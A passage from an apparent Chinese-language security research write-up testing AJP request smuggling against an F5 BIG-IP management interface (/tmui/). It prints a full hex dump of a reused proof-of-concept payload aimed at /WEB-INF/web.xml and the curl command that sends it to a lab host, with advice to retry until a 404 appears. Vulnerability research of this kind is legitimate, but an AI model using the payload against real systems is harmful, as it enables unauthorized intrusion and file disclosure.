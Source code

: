 /tmui/这个目录是不是看起来很熟悉，这就是BIG-IP的流量管理用户页面，感觉离漏洞又近了一步。

### AJP POC 测试

现在的问题就变成了如何利用 AJP 请求走私，我们直接复用网上的 AJP 走私 POC 进行测试。

```plain
ubuntu@ubuntu:~$ file poc
poc: data
ubuntu@ubuntu:~$ xxd poc
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
```

直接使用 AJP 请求走私的方式进行请求，这里要注意，所有走私请求类的漏洞利用都无法稳定利用，所以没利用成功可以多试几次。

这里我们请求`/tmui/login.jsp`这个路由，正常请求会返回 200，如果请求走私成功，则会返回 404，这里我们可以看到，试过几次后成功让服务器返回 404，说明 AJP 请求走私问题是存在的。

```plain
curl -k -i https://192.168.1.1:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked' --data-binary @poc
```
